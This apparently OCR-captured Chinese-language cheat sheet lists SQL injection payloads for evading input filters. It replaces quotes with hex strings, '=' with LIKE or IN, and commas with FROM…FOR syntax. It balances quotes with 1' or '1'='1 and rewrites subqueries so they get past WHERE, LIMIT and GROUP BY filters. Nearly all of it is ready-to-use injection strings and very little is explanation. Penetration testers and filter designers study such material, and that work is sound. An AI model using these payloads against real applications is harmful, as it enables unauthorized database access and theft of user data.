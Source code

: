 过滤引号

```
可通过注释、括号、内联注释代替引号。
字符串可写作0x十六进制。
select * from tb1 where name='asd';
等价
select * from tb1 where name=0x617364; 
```

过滤=

```
?id=1' or 1 like 1#可以绕过对 = > 等过滤
or '1' IN ('1234')#可以替代= 
```

过滤逗号

```
在使用mid，substr，substring函数的时候，如果逗号被过滤，可以通过from x for y代替。
select mid(user(),1,2);				#从第一个字符开始截取2个
等价
select mid(user() from 1 for 2);	#从第一个字符开始截取2个 
```

过滤注释符

```
测试中通常需要通过注释符屏蔽后面的语句，否则容易报错，但注释符被过滤了。
例如：select * from tb1 where id=$_GET[‘id’] limit 1; //limit1是我们想要屏蔽的语句。
1.通过;结束语句，如果系统不支持堆查询注入，那么后面语句不会执行，或者执行了也能屏蔽错误。
select * from tb1 where id=1; limit 1;
2.整数型注入不受影响
select * from tb1 where id=1 or 1=1 limit 1;
3.字符型注入,传入的参数前后被加上了引号，select * from tb1 where id='$_GET['id']' limit 1; 
这时候可以传入1' or '1'='1  ，再拼接上引号后就能完整。
select * from tb1 where id='1' or '1'='1' limit 1; 
```

过滤where

```
逻辑绕过过滤代码 1 && (select user from users where user_id = 1) = 'admin'
绕过方式 1 && (select user from users limit 1) = 'admin' 
```

过滤limit

```
逻辑绕过过滤代码 1 && (select user from users limit 1) = 'admin'
绕过方式 1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin 
```

过滤group by

```
逻辑绕过过滤代码 1 && (select user from users group by user_id having user_id = 1) = 'admin'
绕过方式 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1 
```
